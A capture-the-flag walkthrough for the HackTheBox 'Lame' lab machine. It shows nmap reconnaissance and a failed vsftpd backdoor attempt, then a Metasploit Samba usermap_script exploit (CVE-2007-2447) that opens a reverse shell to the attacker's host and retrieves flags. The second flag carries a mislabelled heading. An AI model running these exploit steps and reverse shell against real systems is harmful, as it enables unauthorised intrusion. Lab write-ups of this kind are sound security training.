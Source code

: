 ```yaml
---
{"dg-publish":true,"permalink":"/boxer/lame/","tags":["gardenEntry"]}
---
```


## Writeup
1. Initial Recon

``` 
sudo nmap -sT -vvv -n -Pn -p- -oG allPorts 10.10.10.3
```

![Pasted image 20240628135741.png](/img/user/Sources/Pasted%20image%2020240628135741.png)

2. Enumeration
```
sudo nmap -sT -Pn -sV 10.10.10.3 
```

![Pasted image 20240628135907.png](/img/user/Sources/Pasted%20image%2020240628135907.png)

```
sudo nmap --script=smb-os-discovery -p139,445 10.10.10.3
```

![Pasted image 20240628140045.png](/img/user/Sources/Pasted%20image%2020240628140045.png)

- As we have enumerated two services of ftp (Vsftpd 2.3.4) and SMB (Samba 3.0.30-Debian) we will try to search for potential exploits

3. Gaining Access and Exploitation

- In order to gain access we try searching version linked vulnerabilities in Vsftpd service
- We search using metasploit to discover possible exploits

```
msf6 > search name:vsftpd type:exploit
msf6 > use 0

msf6 > exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3

```

![Pasted image 20240628140728.png](/img/user/Sources/Pasted%20image%2020240628140728.png)

- As we have setup up the exploit we try running it to see if we gain access

```
msf6 > exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exit
```

- We were unable to gain access through this service exploit lets research the other service at hand Samba 3.0.20
- Upon exploration we discover that there is a 2007 CVE attached to this version [CVE-2007-2447](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-2447#:~:text=The%20MS%2DRPC%20functionality%20in,%22username%20map%20script%22%20smb.)
- We can now search for potential exploits in a similar manner for this particular vulnerability

```
msf6 > search name:Samba 3.0.20 type:exploit

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 > use 0

```

![Pasted image 20240628142654.png](/img/user/Sources/Pasted%20image%2020240628142654.png)

4. Maintaining access and Extracting outputs
- Now we have gained access so let's extract the details using the reverse shell
```
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.14.41:4444 
[*] Command shell session 1 opened (10.10.14.41:4444 -> 10.10.10.3:49101) at 2024-06-28 04:09:57 -0400

pwd
/
```

- After entering the shell we determine the list of directories
![Pasted image 20240628143012.png](/img/user/Sources/Pasted%20image%2020240628143012.png)

- Makis seems interesting let's explore it further and we seem to have a flag text file
![Pasted image 20240628143012.png](/img/user/Sources/Pasted%20image%2020240628143012.png)
```
Flag user: 0e414761cc5078a6b6741214b7c8f730
```

- Now let's explore the home directory to explore its contents, and seems like we have our root flag text here
![Pasted image 20240628143145.png](/img/user/Sources/Pasted%20image%2020240628143145.png)
```
Flag user: ef2edc5988887baec7cead2aaeb880fd
```

5. We have officially pwned the box!

![pwned.png](/img/user/Sources/pwned.png)